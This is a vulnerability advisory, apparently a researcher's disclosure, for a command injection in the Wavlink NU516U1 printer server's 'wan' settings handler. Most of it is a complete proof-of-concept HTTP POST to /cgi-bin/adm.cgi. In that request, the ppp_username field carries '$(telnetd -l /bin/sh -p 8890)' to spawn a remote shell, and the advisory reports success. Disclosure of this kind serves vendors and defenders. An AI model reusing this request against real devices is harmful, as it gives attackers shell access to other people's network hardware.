



# Wavlink Vulnerability

Vendor:Wavlink

Product:NU516U1

Version:M16U1_V240425

Type:Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found a command injection vulnerability in a Wavlink USB Network Printer Server with recently released firmware, which allows remote attackers to execute arbitrary OS commands via a crafted request.

**Remote Command Execution**

In `wan` interface, `ppp_username、ppp_passwd、rwan_ip、rwan_mask、rwan_gateway` is directly passed by the attacker, so we can control the `ppp_username、ppp_passwd、rwan_ip、rwan_mask、rwan_gateway` to attack the OS.

<div  align="center"></div>

<div  align="center"></div>


## PoC

We set `ppp_username` as **$(telnetd -l /bin/sh -p 8890)** , and the device will excute it,such as:

```http
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Origin: http://192.168.10.1
Connection: keep-alive
Referer: http://192.168.10.1/html/networkSetting.shtml
Cookie: session=141508355
Upgrade-Insecure-Requests: 1
Priority: u=4

page=wan&Wan0T=3&RussianPPPoE_flag=1&PPP_DNSONOFF=1&Second_wan_value=STATIC&rwan_ip=192.168.0.22&rwan_mask=255.255.255.0&rwan_gateway=192.168.0.1&ppp_username=$(telnetd -l /bin/sh -p 8890)&ppp_passwd=
```


## Result

Get a shell!

<div  align="center"></div>
